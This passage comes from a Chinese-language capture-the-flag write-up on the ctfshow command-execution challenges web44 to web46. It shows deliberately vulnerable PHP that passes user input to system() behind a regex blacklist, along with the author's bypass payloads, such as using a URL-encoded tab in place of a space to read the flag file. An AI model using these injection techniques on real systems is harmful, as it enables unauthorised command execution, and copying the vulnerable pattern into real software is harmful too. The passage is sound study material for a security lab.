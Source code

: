 ```
}else{
    highlight_file(__FILE__);
}
```

新增对flag的过滤，那就先正则匹配

payload:?c=tac f* ||



### web45

```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 21:35:34
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| /i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```

这次加了一个空格。空格可以用url编码的TAB代替，即%09

payload:?c=tac%09f*||



### web46

```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 21:50:19
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
```